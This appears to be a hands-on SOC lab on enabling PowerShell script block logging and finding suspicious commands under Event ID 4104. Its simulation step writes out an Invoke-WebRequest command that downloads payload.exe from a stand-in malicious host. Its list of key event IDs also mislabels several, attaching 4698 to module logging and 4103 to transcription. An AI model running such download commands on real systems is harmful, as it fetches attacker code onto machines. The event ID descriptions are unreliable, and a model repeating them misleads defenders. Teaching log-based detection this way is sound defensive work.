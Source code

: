 # **Lab#3: Log Analysis Basics: Windows PowerShell Logs**

## **Objective:**
The objective of this lab is to introduce students to **Windows PowerShell Logs** and help them understand how to analyze PowerShell-related events. Students will learn how to explore and analyze PowerShell logs to detect suspicious or malicious PowerShell commands that could indicate an attack or compromise.

---

## **Lab Setup**
### **Requirements:**
- **System:** Windows 10/11 or Windows Server 2019/2022
- **Tools:**
  - **Windows Event Viewer** (pre-installed)
  - **PowerShell (Pre-installed on Windows)**
  - **Administrative Privileges** (required for enabling logs)

---

## **Preparation:**
In this lab, you will explore and analyze **Windows PowerShell Logs** in the **Event Viewer**. These logs record events related to PowerShell execution, such as the running of scripts, command usage, and potential malicious activities.

### **On Windows:**
1. Press `Win + R` and type `eventvwr.msc` to open the **Event Viewer**.
2. In the **Event Viewer**, expand the **Applications and Services Logs** section and navigate to:
`Microsoft → Windows → PowerShell → Operational`

3. You should now be able to see logs related to PowerShell activities.

---

## **What are Windows PowerShell Logs?**
PowerShell logs contain information about PowerShell script executions, including details about the commands that were run, the processes that invoked them, and the user who executed them. These logs can be used to detect potential misuse of PowerShell, including post-exploitation techniques often used by attackers.

### **Key PowerShell Logs to Monitor:**
- **Event ID 4104**: Script block logging, capturing the PowerShell commands executed.
- **Event ID 4103**: Transcription logs for all PowerShell sessions.
- **Event ID 4698**: PowerShell Module Logging for the execution of specific modules.
- **Event ID 4101**: Execution of PowerShell commands through command-line arguments.

---

## **Lab Task: Explore and Analyze Windows PowerShell Logs**

### **Step 1: Enable PowerShell Script Block Logging**
Before proceeding, make sure PowerShell script block logging is enabled on your system:

1. Press `Win + R`, type `gpedit.msc`, and press Enter to open the **Group Policy Editor**.
2. Navigate to:
`Computer Configuration > Administrative Templates > Windows Components > Windows PowerShell`
3. Turn on **Module Logging**, **Script Block Logging**, and **Script Execution**.
4. Apply the settings and close the Group Policy Editor.

### **Step 2: Generate PowerShell Logs**
1. Open **PowerShell** as Administrator.
2. Run the following PowerShell command to generate a log entry:
```powershell
Get-LocalUser | Select-Object Name, Enabled
```
This command will list the local users on your system, which attackers might use to gather information during post-exploitation.

3. After running the command, go back to Event Viewer and navigate to:

`Applications and Services Logs → Microsoft → Windows → PowerShell → Operational`

4. Look for Event ID 4104 in the logs (this will show script block logging for the PowerShell command you executed).
5. Take a screenshot of the event details, including:
 - PowerShell command that was executed
 - User who ran the command
 - Timestamp of the execution

### **Step 3: Simulate Malicious PowerShell Command**
1. Open PowerShell and run the following suspicious command that might be used by an attacker:

```
Invoke-WebRequest -Uri "http://maliciouswebsite.com/payload.exe" -OutFile "C:\temp\payload.exe"`
```
This command simulates downloading a malicious payload from a remote server.
2. Go back to Event Viewer and filter the PowerShell logs for Event ID 4104.
3. Check for any suspicious activity or abnormal PowerShell command execution, specifically focusing on the `Invoke-WebRequest` or any network-based PowerShell command.
4. Take a screenshot of the event details.

### **Step 4: Analyze Suspicious PowerShell Logs**
- Investigate any PowerShell events that show script execution from suspicious sources or unexpected locations.
- Identify the user executing the command and any related system activity (e.g., downloading files, executing binaries).
- Review the Event ID 4104 logs and check for patterns such as unusual script execution or command-line arguments that could indicate malicious behavior.


## Conclusion:
- Understanding PowerShell Logs: PowerShell logs are crucial for detecting the misuse of PowerShell by attackers. By analyzing PowerShell event logs, you can identify suspicious commands and potential security threats.
- SOC Analyst Role: As a SOC Analyst, reviewing these logs is vital for detecting post-exploitation activities, including malicious PowerShell commands often used for lateral movement, credential dumping, and payload execution.
- Threat Detection: Monitoring PowerShell logs can help identify abnormal activity early, allowing for faster detection and response to potential threats.

## Submission:
- Event ID 4104 (PowerShell Script Execution): Submit a screenshot showing a PowerShell script execution event from the logs.
- Malicious PowerShell Command: Submit a screenshot showing the execution of a suspicious or malicious PowerShell command.

